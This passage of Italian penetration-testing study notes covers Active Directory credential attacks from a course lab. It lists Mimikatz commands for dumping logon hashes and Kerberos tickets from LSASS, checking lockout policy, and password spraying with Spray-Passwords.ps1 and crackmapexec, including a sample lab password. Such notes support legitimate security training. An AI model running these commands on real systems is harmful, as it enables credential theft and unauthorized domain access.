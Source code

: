 Abilitazione del privilegio _SeDebugPrivlege_ che permette di interagire con processi in possesso di altri account:

```bash
privilege::debug
```

Recupero degli hash collegati agli utenti loggati alla macchina corrente:

```bash
sekurlsa::logonpasswords
```

Un modo diverso di utilizzare _Mimikatz_ consiste nell'utilizzo dei _TGT_ e dei _service tickets_. Infatti, anche i tickets sono conservati all'interno di LSSAS e quindi è possibile sfruttarli per recuperare ticket.

Nel caso preso in esame viene fatta prima una richiesta di connessione ad uno share SMB (dir \\web04.corp.com\backup) e successivamente lanciato questo comando:

```bash
sekurlsa::tickets
```

# 22.2. Performing Attacks on Active Directory Authentication

## 22.2.1. Password Attacks

Una delle informazioni importanti da ottenere prima di avviare un attacco di forza bruta o basato su delle wordlist, riguarda le policy collegare allo specifico account che si intende attaccare. Un dato molto importante, ricavato mediante l'utilizzo del comando _net accounts_ è quello relativo al lockout, ovvero il numero di tentativi possibili prima che l'account possa essere bloccato:

```bash
net accounts
```

Di seguito verranno riportati 3 esempi di mimi:
1) Utilizzo di LDAP e ADSI per eseguire un _password attack_ di tipo _low and slow_ nei confronti di utenti AD.
2) _Password spraying attack_ nei confronti di utenti AD sfruttando SMB.
3) _Password spraying attack_ basato sull'ottenimento di un TGT.

1) Utilizzo di _Spray-Passwords_ per ricavare delle credenziali partendo da una password nota:

```bash
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass $PASSWORD -Admin
```

2) SMB Attack tramite _crackmapexec_ partendo da una password nota:

```bash
crackmapexec smb $IP_TARGET -u user_list.txt -p '$PASSWORD' -d $DOMAIN_NAME

crackmapexec smb $IP_TARGET -u user_list.txt -p '$PASSWORD' -d $DOMAIN_NAME --continue-on-success

crackmapexec smb 192.168.224.0/24 -u pete -p 'Nexus123!' -d corp.com --continue-on-success
```
